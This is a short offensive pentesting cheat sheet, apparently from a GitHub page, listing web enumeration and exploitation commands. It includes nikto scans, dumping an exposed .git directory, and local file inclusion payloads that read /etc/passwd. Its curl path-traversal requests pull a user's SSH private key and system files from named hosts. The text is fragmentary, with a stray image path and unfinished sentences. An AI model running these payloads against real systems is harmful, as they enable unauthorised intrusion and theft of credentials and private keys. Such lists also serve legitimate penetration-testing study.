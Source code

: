    strings malicious.png | grep system

use automated tool

    nikto • nikto -h $ip • nikto -h $ip -p 80,8080,1234 #test different ports with one scan

## Git

Download .git

    mkdir <DESTINATION_FOLDER>

    ./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>

Extract .git content

    mkdir <EXTRACT_FOLDER>

    ./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>

## LFI and RFI


IF LFI FOUND then start with

    ../../../../etc/passwd

SSH keys are

By default, SSH searches for id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa 

    curl http://rssoftwire.com/noman/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa

with encode

    curl http://192.168.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

## SSL Enumeration

    openssl s_client -connect $ip:443
